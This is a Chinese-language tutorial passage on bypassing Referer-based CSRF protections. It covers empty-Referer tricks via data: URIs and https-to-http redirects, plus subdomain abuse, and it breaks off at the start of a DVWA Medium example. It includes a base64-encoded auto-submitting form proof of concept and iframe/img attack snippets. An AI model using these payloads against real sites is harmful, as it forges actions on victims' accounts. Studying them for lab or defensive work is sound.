 # CSRF补充 #

## 关于绕过referer ##
**1.查找当前域下XSS来提交数据**

涉及跨域问题，底下突破token有讲。

[http://blog.csdn.net/joyhen/article/details/21631833](http://blog.csdn.net/joyhen/article/details/21631833)

**2.空Referer绕过**

我们知道正常的页面跳转，浏览器都会自动带上Referer，那么现在的问题就变成了什么情况下浏览器会不带Referer？通过一些资料，可以大致总结为两种情况：
> - 通过地址栏，手动输入；从书签里面选择；通过实现设定好的手势。上面说的这三种都是用户自己去操作，因此不算CSRF。
> - 跨协议间提交请求。常见的协议：ftp://,http://,https://,file://,javascript:,data:.最简单的情况就是我们在本地打开一个HTML页面，这个时候浏览器地址栏是file://开头的，如果这个HTML页面向任何http站点提交请求的话，这些请求的Referer都是空的。那么我们接下来可以利用data:协议来构造一个自动提交的CSRF攻击。当然这个协议是IE不支持的，我们可以换用javascript.
假如http://a.b.com/d 这个接口存在空Referer绕过的CSRF，那么我们的POC可以是这样的：

    <html>
    <body>
       <iframe src="data:text/html;base64,PGZvcm0gbWV0aG9kPXBvc3QgYWN0aW9uPWh0dHA6Ly9hLmIuY29tL2Q+PGlucHV0IHR5cGU9dGV4dCBuYW1lPSdpZCcgdmFsdWU9JzEyMycvPjwvZm9ybT48c2NyaXB0PmRvY3VtZW50LmZvcm1zWzBdLnN1Ym1pdCgpOzwvc2NyaXB0Pg==">
    </doby>
    </html>
上面iframe的src的代码其实是：

    <form method=post action=http://a.b.com/d><input type=text name='id' value='123'/></form><script>document.forms[0].submit();</script>
这就是利用data:\\\协议自动提交表单到有缺陷的CGI.

**3.利用https协议**

  https向http跳转的时候Referer为空，自己部署一个https的webshell，然后在服务器上写如如下攻击页面：

    <iframe src="https://xxxxx.xxxxx/attack.php">
其中attack.php写上CSRF攻击代码。

**4.判断Referer是某域情况下绕过**

比如你找的csrf是xxx.com  验证的referer是验证的*.xx.com  可以找个二级域名 之后<img "csrf地址">  之后在把文章地址发出去 就可以伪造。

     <img src="https://xxxxx.xx.com/attack.php">

**5.判断Referer是否存在某关键词**

例如Dvwa-CSRF-Medium级别

存在漏洞的代码：

    <?php
    
    if( isset( $_GET[ 'Change' ] ) ) {
    
    // Checks to see where the request came from
    